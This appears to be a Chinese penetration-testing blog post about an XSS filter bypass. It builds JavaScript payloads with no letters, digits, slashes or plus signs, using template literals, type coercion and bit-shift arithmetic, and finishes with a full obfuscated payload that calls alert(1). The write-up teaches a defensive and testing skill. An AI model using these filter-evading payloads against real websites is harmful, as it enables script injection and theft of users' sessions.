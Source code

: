 ​	最近在一次渗透中遇到了一个XSS，整个过程比较有趣，故记录下来。

​	该漏洞的输入点在后端过滤了数字、字母和斜杠（/），而输出点的位置在script标签内的字符串变量声明里，我们只需构造一个'-payload-'这样的payload便可以触发XSS，首先可以想到的是利用JSFuck，但不幸的是，后端还过滤了加号（%2b），于是便有了这篇文章的思路。

` 注，该漏洞的绕过方式还有很多种，这里仅仅只是提供一种绕过思路，算是对JSFuck的学习和拓展。`

​	这里首先提供一个思路

> \[\]\[\"constructor\"\]\[\"constructor\"\]\(\"alert(1)\"\)\(\) 

​	在这种情况下，我们只需要构造出"constructor\"以及payload的字符串即可触发XSS。一个有意思的玩法便是通过字符串模板来构造，当然这里离不开${}和反引号。用几个例子来展示一下：

> ![]  //  false
>
> \`![]\`  //  "![]"
>
> \`${![]}\`  //  "false"

​	字符串模板中的占位符的执行优先级是高于反引号的，我们可以利用占位符得到我们想要的对象，再得到其字符串。

> \`${!![]}\`   //  "true"
>
> \`${![]}\`  //  "false"
>
> \`${{}}\`   //   "[object Object]"
>
> \`${\[\]\[\[\]\]}\`  //  "undefined"

​	已经得到这么多字符串的情况下，我们可以利用索引来获取我们想要的字符，但加号被过滤了，我们还有什么办法可以快速构造数字的呢？

​	JS是弱类型语言，我们仅需要简单的运算即可得到基础的数字：

> []-[]  //  0    0b0
>
> !![]-[]  //  1    0b1
>
> !![]<<!![]  //  2    0b10
>
> !![]<<!![]<<!![]  // 4    0b100

​	通过位运算符得到这些基础数字后，可以执行的操作就很多了，我使用的是或运算，实际情况中还可以考虑其他的运算符。

> (!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![])|(!![]<<![])  //  233

​	剩下的就是构造payload的时候了，通过我们前面所说的`[]["constructor"]["constructor"]("alert(1)")() ` 思路，按部就班的做就可以了。

> \`${{}}\`[!![]<<!![]<<!![]|!![]-[]]   //  "c"
>
> \`${{}}`[!![]-[]]  //  "o"
>
> \`${\[\]\[\[\]\]}\`[!![]-[]]  //  "n"
>
> \`${![]}\`[!![]-[]|!![]<<!![]]  //  "s"
>
> \`${!![]}\`[[]-[]]  //  "t"
>
> \`${!![]}\`[!![]-[]]  >>>  "r"
>
> \`${\[\]\[\[\]\]}\`[[]-[]]  >>>  "u"
>
> \`${{}}\`[!![]<<!![]<<!![]|!![]-[]]   >>>  "c"
>
> \`${!![]}\`[[]-[]]  >>>  "t"
>
> \`${{}}`[!![]-[]]  >>>  "o"
>
> \`${!![]}\`[!![]-[]]  >>>  "r"

​	拼接这些字符为一整个字符串。

> \`\$\{\`\$\{\{\}\}\`\[\!\!\[\]\<\<\!\!\[\]\<\<\!\!\[\]\|\!\!\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\[\]\[\[\]\]\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\[\]\}\`\[\!\!\[\]\-\[\]\|\!\!\[\]\<\<\!\!\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\[\]\[\[\]\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\<\<\!\!\[]\<\<\!\!\[\]\|\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\!\!\[\]\-\[\]\]\}\`   >>>  "constructor"
>
> Set\['constructor'\]\(alert(1))()

​	构造payload

> _=\`\$\{\`\$\{\{\}\}\`\[\!\!\[\]\<\<\!\!\[\]\<\<\!\!\[\]\|\!\!\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\[\]\[\[\]\]\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\[\]\}\`\[\!\!\[\]\-\[\]\|\!\!\[\]\<\<\!\!\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\[\]\[\[\]\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\<\<\!\!\[\]\<\<\!\!\[\]\|\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\!\!\[\]\-\[\]\]\}\`;
>
> [\]\[\_\]\[\_\]\(\`\$\{\`\$\{\!\!\[\]\[\~\[\]\]\}\`\[\!\!\{\}\<\<\!\[\]\]\}\$\{\`\$\{\!\!\[\]\[\~\[\]\]\}\`\[\!\!\{\}\<\<\!\!\[\]\]\}\$\{\`\$\{\!\[\]\[\~\[\]\]\}\`\[\(\!\!\[\]\<\<\!\!\[\]\)\|\!\!\[\]\]\}\$\{\`\$\{\!\[\]\[\~\[\]\]\}\`\[\!\!\{\}\<\<\!\[\]\]\}\$\{\`\$\{\!\[\]\[\~\[\]\]\}\`\[\!\{\}\<\<\!\[\]\]\}\(\$\{\!\!\{\}\<\<\!\[\]\}\)\`\)\(\)

